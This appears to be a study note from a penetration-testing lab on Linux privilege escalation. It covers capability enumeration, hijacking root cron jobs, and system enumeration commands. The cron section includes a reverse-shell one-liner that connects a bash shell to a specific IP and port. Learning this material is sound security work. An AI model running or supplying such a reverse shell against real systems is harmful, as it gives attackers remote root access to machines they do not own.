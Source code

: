 We can use the `getcap` tool to list enabled capabilities.
When run as an unprivileged user, `getcap -r /` will generate a huge amount of errors, so it is good practice to redirect the error messages to /dev/null.
Please note that neither vim nor its copy has the SUID bit set. This privilege escalation vector is therefore not discoverable when enumerating files looking for SUID.

### crontabs
Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.  
The idea is quite simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.  
  
Cron job configurations are stored as crontabs (cron tables) to see the next time and date the task will run.  
  
Each user on the system have their crontab file and can run specific tasks whether they are logged in or not. As you can expect, our goal will be to find a cron job set by root and have it run our script, ideally a shell.  
  
Any user can read the file keeping system-wide cron jobs under `/etc/crontab`

use `bash -i >& /dev/tcp/10.17.47.25/6666 0>&1`

### hostname
The `hostname` command will return the hostname of the target machine. Although this value can easily be changed or have a relatively meaningless string (e.g. Ubuntu-3487340239), in some cases, it can provide information about the target system’s role within the corporate network (e.g. SQL-PROD-01 for a production SQL server).

### uname -a
Will print system information giving us additional detail about the kernel used by the system. This will be useful when searching for any potential kernel vulnerabilities that could lead to privilege escalation.

### /proc/version
The proc filesystem (procfs) provides information about the target system processes. You will find proc on many different Linux flavours, making it an essential tool to have in your arsenal.

Looking at `/proc/version` may give you information on the kernel version and additional data such as whether a compiler (e.g. GCC) is installed.

### /etc/issue

Systems can also be identified by looking at the `/etc/issue` file. This file usually contains some information about the operating system but can easily be customized or changes. While on the subject, any file containing system information can be customized or changed. For a clearer understanding of the system, it is always good to look at all of these.

### ps Command

The `ps` command is an effective way to see the running processes on a Linux system. Typing `ps` on your terminal will show processes for the current shell.
